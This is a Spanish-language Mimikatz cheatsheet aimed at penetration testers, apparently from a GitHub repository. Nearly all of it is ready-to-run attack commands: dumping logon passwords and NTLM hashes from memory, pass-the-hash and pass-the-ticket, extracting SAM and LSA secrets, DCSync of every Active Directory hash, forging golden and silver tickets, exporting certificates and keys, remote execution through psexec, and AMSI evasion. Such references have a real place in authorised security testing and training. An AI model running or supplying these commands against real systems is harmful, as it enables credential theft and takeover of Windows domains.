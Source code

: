 # 🛠️ Mimikatz Cheatsheet (para Pentesters)

---

## ⚙️ INICIAR MIMIKATZ

```cmd
mimikatz.exe
```

### Ejecutar como administrador:
- Necesario para la mayoría de comandos.

---

## 🔑 1. **Credenciales en Memoria (sekurlsa)**

```cmd
privilege::debug            # Eleva privilegios dentro de mimikatz
log sekurlsa.log            # Guarda la salida en un archivo

sekurlsa::logonpasswords    # Muestra credenciales en memoria (usuarios logueados)
sekurlsa::searchPasswords   # Busca contraseñas directamente (menos verboso)
```

> **Nota**: `sekurlsa::logonpasswords` requiere ejecutar como SYSTEM o desde una sesión con privilegios elevados.

---

## 📀 2. **Hashes NTLM (usados para Pass-the-Hash)**

```cmd
sekurlsa::logonpasswords
```

- Busca el campo `NTLM` o `Hash` y anota los hashes.
- Usar con herramientas como `pth-winexe`, `evil-winrm`, etc.

---

## 🔐 3. **Pass-The-Hash**

```cmd
sekurlsa::pth /user:Administrador /domain:LAB /ntlm:<HASH> /run:cmd.exe
```

> Ejecuta una shell autenticada como el usuario, usando el hash NTLM en vez de la contraseña.

---

## 🪪 4. **Pass-The-Ticket (Kerberos TGT)**

### 1 - Extraer TGT:

```cmd
sekurlsa::tickets           # Muestra tickets Kerberos actuales

# Ejemplos
mimikatz # sekurlsa::tickets /export
```

### 2 - Inyectar TGT:

```cmd
kerberos::ptt <archivo.kirbi>

# Ejemplo
mimikatz # kerberos::ptt [0;17e3fb]-0-0-40810000-dave@cifs-WEB04.corp.com.kirbi
```
### 3 - Corroboramos:

```powershell 
mimikatz # kerberos::list
```
> Ideal para movimiento lateral si capturas tickets con Rubeus u otra herramienta.

---

## 🧠 5. **OverPass-The-Hash (a.k.a. Pass-The-Key)**

```cmd
sekurlsa::logonpasswords      # Para obtener hash NTLM
sekurlsa::pth /user:usuario /domain:dominio.local /ntlm:<hash> /aes256:<aeskey> /run:cmd.exe
```

---

## 🔑 6. **Extraer Hashes del SAM / SYSTEM**

```cmd
token::elevate
lsadump::sam
```

> Extrae los hashes locales de cuentas del sistema.

---

## 🏦 7. **Dumpear Active Directory (LSA Secrets / NTDS)**

### a) Secrets del sistema (LSA Secrets):

```cmd
lsadump::secrets
```

### b) NTDS.dit (base de datos AD):

```cmd
lsadump::dcsync /domain:dominio.local /user:usuario
```

### Dump completo de todos los hashes de AD:

```cmd
lsadump::dcsync /domain:dominio.local /all /csv
```

> Este comando simula el comportamiento de un DC y requiere privilegios de `Replicating Directory Changes`.

---

## 📂 8. **Golden Ticket**

### Crear TGT falso con la clave KRBTGT:

```cmd
kerberos::golden /user:Usuario /domain:dominio.local /sid:S-1-5-21-... /krbtgt:<hash> /id:500
```

> Luego lo cargas con:

```cmd
kerberos::ptt ticket.kirbi
```

---

## 🤖 9. **Silver Ticket**

```cmd
kerberos::golden /domain:dominio.local /sid:<SID> /target:SERVICIO/maquina /service:<SPN> /rc4:<hash> /user:usuario /ptt
```

> Utilizado para acceder directamente a servicios como CIFS, HTTP, sin necesidad de autenticarse al DC.

---

## 📅 10. **Exportar Certificados (para ataques con Certi)**

```cmd
crypto::certificates /export
crypto::keys /export
```

> Exporta certificados almacenados para usar con ataques tipo **PKINIT** o autenticación con smartcards.

---

## 🔍 11. **Otros Comandos ÚTiles**

### Elevar privilegios (para SYSTEM):

```cmd
token::elevate
```

### Listar sesiones activas:

```cmd
ts::sessions
```

### Ejecutar comandos directamente:

```cmd
!whoami
!ipconfig
```

---

## 📁 12. **Uso con PSEXEC o Impacket**

Puedes dejar Mimikatz en una máquina víctima y ejecutarlo remotamente, por ejemplo:

```bash
psexec.exe \\IP -u usuario -p contraseña cmd.exe
```

> Luego ejecutas mimikatz desde ahí.

---

## 🔐 13. **Bypass UAC y AMSI (si es necesario)**

Algunas versiones de Mimikatz permiten evadir AMSI:

```cmd
misc::amsi
```

O puedes cargarlo en memoria con herramientas como `Invoke-Mimikatz`, `SharpKatz` o `PELoader`.

---

